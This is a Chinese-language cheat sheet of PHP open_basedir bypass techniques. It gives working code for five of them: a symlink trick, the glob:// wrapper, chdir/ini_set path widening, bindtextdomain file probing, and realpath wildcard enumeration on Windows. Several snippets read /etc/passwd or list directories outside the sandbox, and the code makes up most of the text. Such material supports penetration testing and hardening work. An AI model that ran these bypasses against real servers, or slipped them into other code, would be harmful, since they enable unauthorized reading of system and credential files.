

# bypass_open_basedir

---

**相关文章 & Source & Reference**
- [php中函数禁用绕过的原理与利用](https://mp.weixin.qq.com/s/_L379eq0kufu3CCHN1DdkA)

---

## 利用 symlink

通过建立软链达成 bypass

```php
<?php

symlink("abc/abc/abc/abc","templink2");
symlink("templink2/../../../../../etc/passwd","exploit");
unlink("templink2");
mkdir("templink2");

?>
```

首先是创建一个 link，将 tmplink 用相对路径指向 `abc/abc/abc/abc`，然后再创建一个 link，将 exploit 指向 `tmplink/../../../../etc/passwd`，此时就相当于 exploit 指向了 `abc/abc/abc/abc/../../../../etc/passwd` ，也就相当于 exploit 指向了 `/etc/passwd` ，此时删除 tmplink 文件后再创建 tmplink 目录，此时就变为 `/etc/passwd` 成功跨目录。

访问 exploit 即可读取到 `/etc/passwd`。



---

## 利用 glob

通过查找匹配进行 bypass,不过只能列举根目录下的文件

```php
<?php
$c="glob:///*";
$a=new DirectoryIterator($c);
foreach ($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

---

# chdir() 与 ini_set()

chdir 是更改当前工作路径

```php
<?php

mkdir('test');
chdir('test');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
echo file_get_contents('/etc/passwd');

?>
```

可以用如下代码观察一下其 bypass 过程
```php
<?php

ini_set('open_basedir','/www/wwwroot'.'/tmp');
mkdir('test');
chdir('test');
ini_set('open_basedir','..');
printf('open_basedir : %s </b><br />',ini_get('open_basedir'));
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
printf('open_basedir : %s </b><br />',ini_get('open_basedir'));
//echo file_get_contents('/etc/passwd');

?>
```

---

# bindtextdomain

该函数的第二个参数为一个文件路径，先看代码：

```php
<?php

ini_set('open_basedir','/www/wwwroot'.'/tmp');

printf('open_basedir : %s </b><br />',ini_get('open_basedir'));
$re=bindtextdomain('xxx','/etc/passwd');
var_dump($re);
$re=bindtextdomain('xxx','/etc/passw');
var_dump($re);

?>
```

当文件不存在时返回值为 false，因为不支持通配符，该方法只能适用于 linux 下的暴力猜解文件。

---

# Realpath

同样是基于报错，但 realpath 在 windows 下可以使用通配符 `<` 和 `>` 进行列举

```php
<?php

ini_set('open_basedir',dirname(__FILE__));
printf('open_basedir : %s </b><br />',ini_get('open_basedir'));
set_error_handler('isexists');
$dir='d:/1earn/';
$file='';
$chars='abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0;$i < strlen($chars);$i++){
    $file=$dir.$chars[$i].'<><';
    realpath($file);
}
function isexists($errno,$errstr){
    $regexp='/File\((.*)\) is not within/';
    preg_match($regexp,$errstr,$matches);
    if (isset($matches[1])){
        printf("%s <br/>",$matches[1]);
    }
}
?>
```
